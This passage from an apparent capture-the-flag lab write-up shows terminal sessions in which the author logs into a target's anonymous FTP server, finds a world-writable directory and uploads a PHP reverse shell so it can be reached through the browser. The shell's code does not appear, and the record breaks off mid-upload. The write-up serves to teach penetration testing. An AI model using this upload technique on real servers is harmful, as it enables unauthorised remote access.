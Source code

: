 It rang a bell in my mind that maybe I can upload a file from ftp and access it through browser. So I started testing. I used basic php reverse shell and changed the ip address to my tunnel ip address `tun0` and simply started trying to put it on the target machine.
```zsh
┌──(kali㉿kali)-[~/transfer]
└─$ ftp 10.10.23.42 21
Connected to 10.10.23.42.
220 (vsFTPd 3.0.3)
Name (10.10.23.42:kali): anonymous
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> put thm-rev.php 
local: thm-rev.php remote: thm-rev.php
229 Entering Extended Passive Mode (|||59487|)
553 Could not create file.
ftp> put thm-rev.php
local: thm-rev.php remote: thm-rev.php
229 Entering Extended Passive Mode (|||50780|)
553 Could not create file.
ftp> put thm-rev.php thm.php
local: thm-rev.php remote: thm.php
229 Entering Extended Passive Mode (|||8509|)
553 Could not create file.
ftp> exit
221 Goodbye.
```
I tried but it threw an error saying `553 Could not create file.` So I looked again at the permissions of the files in the directory I was in and I saw that th directory there which was named `ftp` had full permissions `drwxrwxrwx`

So I moved into `ftp` directory and then tried putting a simple txt file to test. Then I accessed it through browser it was working, no problem. Then I uploaded my php reverse shell `thm-rev.php` in the ftp directory.
```zsh
┌──(kali㉿kali)-[~/transfer]
└─$ ftp 10.10.23.42 21
Connected to 10.10.23.42.
220 (vsFTPd 3.0.3)
Name (10.10.23.42:kali): anonymous
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> cd ftp
250 Directory successfully changed.
ftp> put test.txt
local: test.txt remote: test.txt
229 Entering Extended Passive Mode (|||58257|)
150 Ok to send data.
100% |*************************************|     5       63.41 KiB/s    00:00 ETA
226 Transfer complete.
5 bytes sent in 00:00 (0.01 KiB/s)
ftp> ls
229 Entering Extended Passive Mode (|||48529|)
150 Here comes the directory listing.
-rwxrwxr-x    1 112      118             5 Feb 09 07:39 test.txt
226 Directory send OK.
ftp> put thm-rev.php 
local: thm-rev.php remote: thm-rev.php
229 Entering Extended Passive Mode (|||43125|)
150 Ok to send data.
```